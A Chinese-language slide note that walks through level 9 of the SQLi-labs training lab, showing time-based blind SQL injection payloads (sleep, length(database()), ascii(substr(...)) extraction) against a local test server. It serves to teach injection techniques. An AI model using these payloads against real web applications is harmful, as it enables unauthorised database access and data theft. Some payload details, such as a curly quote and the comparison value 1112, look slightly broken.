

# Less-9
1. http://127.0.0.1/sqli/Less-9/?id=1‘  order by 3999--+ 当使用order by的时候，此时无论如何都是回显you are in….所以无法使用order by进行判断。
2. http://127.0.0.1/sqli/Less-9/?id=1‘ and sleep(5)--+ 当存在注入漏洞时，可以使用延迟注入进行判断，此时若存在漏洞，则睡眠5s之后再返回结果。
3. http://127.0.0.1/sqli/Less-9/?id=1‘ and if(length(database())=8,1,sleep(5)); 通过返回时间进行判断，此时如果数据库长度为8，则可以较快返回。
4. http://127.0.0.1/sqli/Less-9/?id=1‘ and if(ascii(substr((select schema_name from information_schema.schemata limit 4,1),1,1))>1112,1,sleep(5))--+ 使用less-8中同样的方法进行判断即可!
5. 因为盲注属于猜解，推荐使用脚本进行操作。